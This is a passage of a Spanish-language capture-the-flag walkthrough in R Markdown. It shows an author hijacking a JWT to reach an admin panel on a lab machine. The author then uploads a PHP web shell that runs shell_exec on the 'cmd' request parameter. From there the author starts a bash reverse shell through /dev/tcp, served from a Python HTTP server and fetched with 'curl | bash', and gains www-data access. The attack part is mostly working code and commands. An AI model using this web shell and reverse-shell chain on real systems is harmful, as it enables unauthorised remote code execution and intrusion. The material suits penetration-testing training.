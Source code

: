 1. Copiamos el JWT token en firefox

    ```{r, echo = FALSE, fig.cap="jwt firefox hijack", out.width="90%"}
    knitr::include_graphics("images/jwt-firefox.png")
    ```

Ya lanzando la web otra vez y vemos que un Admin Panel a salido y en el cual se puede ver notas y uploadear ficheros.

### Analizamos las notas {-}

Analizando las notas se puede ver :

- Usuario admin
- Usuario Noah
- Ejecucion de fichero php

### Uploadeamos un s4vishell.php {-}

Como hay un boton upload vamos a por una `s4vishell.php`

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Subimos el fichero y perfecto nos va y pinchando el boton view ya tenemos Remote Code Execution

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Crear una reverse shell desde la s4vishell.php con un index.html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. Desde la s4vishell

    ```php
    http://10.10.10.230/6a5sd4f6a5sd1f6as5dfa6sd51fa.php?cmd=curl 10.10.14.8|bash
    ```

Ya esta

```bash
whoami
#Output

www-data
```
